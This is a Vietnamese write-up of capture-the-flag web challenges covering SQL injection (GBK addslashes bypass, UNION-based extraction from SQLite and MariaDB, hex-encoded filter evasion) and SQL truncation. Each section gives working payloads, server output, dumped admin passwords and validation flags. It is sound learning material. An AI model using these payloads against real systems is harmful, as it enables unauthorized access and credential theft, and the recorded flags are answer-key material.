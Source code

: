 ## 41. SQL injection - Authentication - GBK
- GBK là phần ký tự Trung Quốc giản thể. GBK bao gồm tất cả ký tự Trung Quốc được định nghĩa trong unicode.
- Thường thì bên server sẽ sử dụng để bypass hàm addslashes().
- addslashes() dùng để thêm một dấu gạch chéo ngược (\\) phía trước các ký tự là dấu nháy kép, dấu nháy đơn và dấu gạch chéo ngược trong chuỗi.
- Do đó nếu thêm dấu ' vào thì nó sẽ thành \\' thêm slashes vào.
- Vì vậy giải pháp là chuyển thành GBK thì sẽ bypass được.
- Đầu tiên họ cho trang login thì chuyển login thành mảng để xem lỗi và họ báo lỗi dùng addslashes().
```js
login[]=admin&password=admin
```
- Vì kí tự %bf%5c hay %af%5c là ký tự Trung Quốc nên ta chỉ gần thêm %bf thì hàm sẽ thêm %5c(\\) vô sau và trở thành ký tự Trung Quốc.
```js
-- -: là comment trên mysql
': là %27
payload: login=%bf' or 1 = 1 -- -&& password = admin
Ấn chuyển hướng trang =>
Congratz! The validation password is: iMDaFlag1337!
```

## 42. SQL injection - String
- Đầu tiên tìm lỗi thì thấy ở thanh search khi nhập dấu ' báo lỗi  SQLite3::query(): nên ta biết họ dùng SQLite3.
- Tìm kiếm số bảng thì thấy có 2 bảng.
```js
payload: recherche = 1' order by 3--
=> bị lỗi nên có 2 bảng.
```
- Khai thác union query tìm kiếm tên bảng tìm được bảng news và users.
```js
payload: recherche=1' union select NULL,sql from sqlite_master--
```
- Rồi xem thông tin users
```js
payload: recherche=1' union select username,password from users--
=> username = admin , password = c4K04dtIaJsuWdi
```

## 50. SQL injection - Numeric
- Đầu tiên họ cho 1 form đăng nhập sau khi dò thì tìm được lỗi sql trên thanh url và dùng SQLite3.
- Đầu tiên vẫn kiểm tra số cột có thể tấn công.
```js
news_id=1 order by 10--
Warning: SQLite3::query(): Unable to prepare statement: 1, 1st ORDER BY term out of range - should be between 1 and 3 in /challenge/web-serveur/ch18/index.php on line 80
1st ORDER BY term out of range - should be between 1 and 3
```
- Có vẻ là có 3 cột.
```js
news_id=1 union select 1,2,3--
News
2
3
=> Chỉ có thể tấn công vào cột 2,3.
```
- Tiếp tra số bảng
```js
news_id=1 union select NULL,NULL,sql from sqlite_master--


CREATE TABLE news(id INTEGER, title TEXT, description TEXT)
CREATE TABLE users(username TEXT, password TEXT, Year INTEGER)
```
- Vô đọc bảng users thôi.
```js
news_id=1 union select NULL,username,password from users--

username = admin
password = aTlkJYLjcbLmue3
```

## 51. SQL Injection - Routed
- SQL Injection - Routed là cách tiêm vào để thoát được 2 query lồng nhau do Routed lấy kết quả của query trước để làm tài nguyên cho câu query sau.
- Tìm thì thấy lỗ hổng ở thanh search. Vì là query lồng nhau nên tìm số bảng đầu tiên.
```js
login='union select 1' order by 10 -- - -- -

Attack detected!
```
- Vì key order by đã bị FILTER nên tìm hiểu thì có thể dùng mã hex để bypass. Qua thử từng cái thì tìm được có 2 cột.
```js
login='union select 1' order by 3 -- - -- -
=> login='union select 1' 0x276f726465722062792033202d2d202d -- -
Unknown column '3' in 'order clause'
```
- Sau khi thử select 1,2 thì có thể khai thác được cả 2 cột.
- Tiếp đến tìm tên DB có thể xem cheat sheet ở đây
##### https://portswigger.net/web-security/sql-injection/cheat-sheet
```js
login='union select 'union select NULL,@@version-- - -- -
=> login='union select 0x27756e696f6e2073656c65637420404076657273696f6e2e4e554c4c2d2d202d -- -

[+] Requested login: ' union select 0x27756e696f6e2073656c656374204e554c4c2c404076657273696f6e2d2d202d -- -<br>
[+] Found ID: <br>
[+] Email: 10.3.34-MariaDB-0ubuntu0.20.04.1<br>
```
- Vì MariaDB khá tương đồng với MySQL nên dùng cheat sheet của MySQL luôn.
- Tìm tên bảng.
```js
login='union select ' union select NULL,table_name from information_schema.tables where table_schema = database() -- - -- -
=> login = 'union select ' 0x27756e696f6e2073656c656374204e554c4c2c7461626c655f6e616d652066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d61203d2064617461626173652829202d2d202d  -- -

[+] Requested login: ' union select 0x27756e696f6e2073656c656374204e554c4c2c7461626c655f6e616d652066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d61203d2064617461626173652829202d2d202d -- -<br>
[+] Found ID: <br>
[+] Email: users<br>
```
- Hiện tên cột trong bảng user
```js
login='union select ' union SELECT NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'-- - -- -
=> login = 'union select ' 0x2720756e696f6e2053454c45435420312c67726f75705f636f6e63617428636f6c756d6e5f6e616d65292046524f4d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73205748455245207461626c655f6e616d65203d20277573657273272d2d202d  -- -

[+] Found ID: 1<br>
[+] Email: id,login,password,email<br>
```
- Hiện login và password là xong.

```js
login='union select 'union SELECT NULL,group_concat(login,'-',password) FROM users-- - -- -
=> login = 'union select ' 0x27756e696f6e2053454c454354204e554c4c2c67726f75705f636f6e636174286c6f67696e2c27202d20272c70617373776f7264292046524f4d2075736572732d2d202d  -- -

[+] Email: admin - qs89QdAs9A,jean - superpass,michel - mypass<br>
```

## 52. SQL Truncation
- Truncation nghĩa là cắt bớt input.
- Đọc source code thì có phần gợi ý về bảng user
```js
<!--
CREATE TABLE IF NOT EXISTS user(   
	id INT NOT NULL AUTO_INCREMENT,
    login VARCHAR(12),
    password CHAR(32),
    PRIMARY KEY (id));
-->
```
- Thì trang web có cho 2 path đăng kí và đăng nhập. Đầu tiên đăng kí tài khoản admin thì nó báo đã tồn tại nên việc bây giờ là bypass admin.
- Vì cột login chỉ có 12 kí tự nên nếu ta điền vượt quá thì nó sẽ tự động cắt bớt nên sẽ điền như sau.
```js
login = admin       aaaa
password = 12345678
=> admin: 5 ký tự nên cần thêm 7 ký tự trắng nữa là được   

Well done ! Flag de validation / Validation flag : J41m3Qu4nD54Tr0nc
```